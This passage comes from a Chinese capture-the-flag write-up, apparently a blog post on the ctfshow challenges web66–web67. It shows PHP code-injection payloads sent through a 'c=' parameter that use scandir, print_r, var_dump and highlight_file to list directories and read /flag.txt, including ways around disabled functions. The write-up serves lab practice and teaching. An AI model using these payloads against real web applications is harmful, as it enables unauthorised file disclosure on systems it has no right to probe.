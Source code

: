 ```cobol
} 
```

```cobol
c=highlight_file(scandir(dirname(__FILE__))[2]);
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/1c172128dd611e5b2d4744a3a8d69ab0.png" alt="" style="max-height:347px; box-sizing:content-box;" />


发现文件不对

那我们直接去根目录看看

```lisp
c=print_r(scandir('/'));
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/21691a94a1800be1cf6ee9ac8a04dc9c.png" alt="" style="max-height:219px; box-sizing:content-box;" />


发现了flag.txt那我们直接读取就可以了

```cobol
c=highlight_file('/'.scandir('/')[6]);
 
 
c=highlight_file(/flag.txt);
```

## web67  print_r被禁用



<img src="https://i-blog.csdnimg.cn/blog_migrate/bd00960d8888433ad06787b38c060317.png" alt="" style="max-height:119px; box-sizing:content-box;" />


发现print_r被禁用了

那我们还有一个var_dump

```lisp
c=var_dump(scandir('/'));
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/3558ca52fd16663d9a0d40e161ea0538.png" alt="" style="max-height:185px; box-sizing:content-box;" />


读取即可

```cobol
c=highlight_file('/flag.txt');
```

## web68 highlight_file被禁用
